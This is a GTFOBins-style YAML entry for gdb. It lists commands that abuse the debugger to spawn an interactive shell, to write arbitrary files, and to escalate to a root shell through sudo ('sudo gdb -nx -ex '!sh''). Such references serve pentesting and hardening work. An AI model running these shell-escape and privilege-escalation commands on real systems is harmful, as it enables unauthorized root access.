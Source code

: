 ```yaml
---
description: |
  GDB may come with embedded Python support, in that case arbitrary code can be executed with the `python` command in the context of the GDB process.

  See the entries of Python [version 2](/gtfobins/python2/) and [version 3](/gtfobins/python3/).
functions:
  execute-interactive:
    - code: gdb -nx -ex '!sh' -ex quit
  file-write:
    - code: |
        LFILE=file_to_write
        gdb -nx -ex "dump value $LFILE \"DATA\"" -ex quit
  sudo-enabled:
    - code: sudo gdb -nx -ex '!sh' -ex quit
---
```


